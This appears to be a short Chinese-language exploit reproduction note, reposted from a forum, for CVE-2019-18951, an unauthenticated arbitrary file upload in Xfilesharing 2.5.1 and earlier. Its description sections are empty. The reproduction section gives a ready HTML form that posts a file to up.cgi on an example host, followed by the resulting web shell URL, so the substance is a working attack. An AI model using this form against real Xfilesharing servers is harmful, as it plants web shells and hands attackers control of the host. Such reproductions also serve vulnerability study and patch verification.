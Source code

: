# （CVE-2019-18951）Xfilesharing 2.5.1本地文件上传getshell

> 原文：[https://www.zhihuifly.com/t/topic/3284](https://www.zhihuifly.com/t/topic/3284)

# （CVE-2019-18951）Xfilesharing 2.5.1本地文件上传getshell

## 一、漏洞简介

## 二、漏洞影响

Version: <=2.5.1

## 三、复现过程

### 任意文件上传

```
<form action="http://0-sec.org/cgi-bin/up.cgi" method="post" enctype="multipart/form-data">
    <input type="text" name="sid" value="joe">
    <input type="file" name="file">
    <input type="submit" value="Upload" name="submit">
</form> 
```

Shell : http://0-sec.org/cgi-bin/temp/joe/shell.php